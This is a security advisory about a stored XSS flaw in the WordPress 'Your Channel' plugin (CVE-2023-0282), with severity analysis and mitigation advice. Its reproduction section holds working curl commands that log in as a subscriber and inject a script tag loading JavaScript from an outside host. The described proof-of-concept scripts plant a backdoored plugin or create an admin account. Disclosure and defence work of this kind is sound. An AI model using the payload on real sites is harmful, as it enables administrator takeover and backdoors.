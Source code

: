 ```yaml
---
layout: post
title: "CWE-79 Danger of stored XSS vulnerability in CMS especially for Wordpress"
categories: wordpress
author:
- TouchWeb.fr
- 202 ecommerce
- Friends-Of-Presta.org
meta: "CVE,Wordpress"
severity: "critical (9.0)"
---
```


As a developer, the severity level is often considered to be low. By underestimating the gravity, we lower our guard against these vulnerabilities. However, some types of vulnerabilities called "stored XSS" are particularly critical when they spread from the front office to the back office.

## Summary

* **Published at**: 2023-03-03
* **Vendor**: All CMS. 
* **Weakness**: [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
* **Severity**: critical (9.0)

Vulnerability by design applied on Your Channel's plugin. This will work on any plugins which suffer of a XSS T2 F2B.

## Description

This publication is a summary of Touchweb's work studying the impact of XSS vulnerabilities in the context of the Wordpress CMS, following the [Prestashop related publication](https://friends-of-presta.github.io/security-advisories/modules/2023/02/07/stored-xss.html)

To highlight the criticality of XSS and give us the means to mitigate their effects, TouchWeb conducted its research based on the vulnerability of the [Your Channel plugins](https://wpscan.com/vulnerability/93693d45-5217-4571-bae5-aab8878cfe62), which in versions prior to 1.2.2 has a stored XSS, wrongly tag as MEDIUM gravity instead of HIGH gravity : https://nvd.nist.gov/vuln/detail/CVE-2023-0282 like many others XSS T2 F2B.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: required
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H

### How to know if a XSS is critical ?

That's important to caracterize with strictness XSS. There is to many people which only tag this vulnerability as "XSS" which is dangerous since there will be misunderstood and often under valuation of gravity.

The most dangerous are XSS of type 2 according to their official CWE ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)), meaning Stored-XSS (or persistent XSS) and more specialy those which can be injected from FRONT by guest or assimilated to target BACK.

We will call them: [CWE-79](https://cwe.mitre.org/data/definitions/79.html) / T2-F2B (Type 2 : Stored XSS AND from Front office to Back office).

In summary, if you can inject a XSS from FRONT as guest (or assimilated), which will be stored in database then interprated on BACK, then it's a critical vulnerability which must be scored CVSS 3 : 9.0+/10 since it unlocks design's vulnerabilities (users's administration / plugins's administration)

For others XSS Type 2 F2F/B2B/B2F (front to front / back to back / back to front), you can preserve a low to medium gravity score. 

Nevertheless, be warn that on Wordpress, XSS of type 1 can be critical if it targets a backoffice due to native predictable backoffice link (natively /wp-admin/).

### Plugin presentation

The [Your channel](https://fr.wordpress.org/plugins/yourchannel/) plugin allow, as subscriber (the lowest native role on Wordpress), to post videos.

The video field is not protected in the sense that the entered value is stored as is in the database and displayed without escaping in the back office.

Example:
* yrc_lang[Videos] entered: <strong>my name</strong>
* result: my name will be displayed in bold in the back office in Your Channel's settings.

From then on, it is possible to inject malicious JavaScript, for example: `<script src='test.js'>`


### Proof of concept

Touchweb provides two benign JavaScript scripts that highlight the vulnerability for Wordpress 4.0+ (we tested for 6.1.1).
* Script A allows injecting a classic-editor plugin containing a backdoor without the knowledge of a moderator, i.e. an administrator with rights.
* Script B allows injecting an administrator (we cannot "disabled it" as PS POC B on creation because WP do not allow this).

**DO NOT TEST IT IN PRODUCTION.**


### How to reproduce?

* We installed Wordpress 6.1.1
* We installed the [yourchannel plugin zip](https://github.com/WPPlugins/yourchannel/archive/refs/tags/0.9.1.zip).
* We allow guest on Wordpress to be able to sign up then create an account as guest
* Login with the account you created as guest and reproduce this POC : https://wpscan.com/vulnerability/93693d45-5217-4571-bae5-aab8878cfe62 by replacing `><script>alert(1)</script>` by `><scrip src=//1j.vc/wp_a.js>`

```
curl -v --cookie-jar cookie.txt  -X POST -d "log=YOUR_SUBSCRIBER_LOGIN&pwd=YOUR_SUBSCRIBER_PASSWORD&wp-submit=Log+In" "https://preprod.XXX/wp-login.php" \
&& curl -v --cookie cookie.txt -X POST -d "action=yrc_save_lang&yrc_lang[Videos]=%22%3E%3Cscript%20src%3Dhttps%3A%2F%2F1j.vc%2Fwp_a.js%3E%3C%2Fscript%3E" -H "Content-Type: application/x-www-form-urlencoded" https://preprod.XXX/wp-admin/admin-ajax.php
```

* As administrator, return to the back office on plugin's configuration page (Settings > Your Channel)


### How to best protect yourself?

In the face of a Stored XSS vulnerability targeting the back office, it is impossible to undo all the effects. However, the most dangerous exploits can be limited.

* Systematically escape characters ' " < and > by replacing them with HTML entities and applying strip_tags
* Limit to the strict minimum the length's value in database - a database field which allow 10 characters (`varchar(10)`) is far less dangerous than a field which allow 40+ characters (use cases which can exploit fragmented XSS payloads are very rare)
* Configure CSP headers (content security policies) by listing  externals domains allowed to load assets (such as js files).
* If applicable: check against all your frontoffice's uploaders, uploading files which will be served by your server with mime type application/javascript (like every .js natively) must be strictly forbidden as it must be considered as dangerous as PHP files.
* Activate OWASP 941's rules on your WAF (Web application firewall) - be warn that you will probably break your backoffice and you will need to preconfigure some bypasses against these set of rules.


### How to know if I'm already infected by a XSS of type 2 (Stored-XSS)?

You must check every tables within your database which could store guest's input, at least against common XSS injection. 
You can find a list of potential hijacked events on [PrestaShop method Validate::isCleanHtml()](https://github.com/PrestaShop/PrestaShop/blob/develop/classes/Validate.php#L507)

Be warn that you will probably face falses positives alerts which can be time consumming.


### How CMS's core team can help ecosystem about CSP headers ?

If you already setup CSP headers, you already know that it's a plague on our E-Commerce ecosystem with tens externals dependancies (cariers / banks / tracking / remarketing / ...), to setup and more over to maintain over time.

This chaos generate front/back breaks on updates which make it stressfull for all professionnals trying to strength their protection against XSS.

It would be very appreciated if core team constrains plugins developpers to list with strictness their externals dependancies in a normative way which permit a professional generation of CSP headers - not based on chaotic front/back exploration.
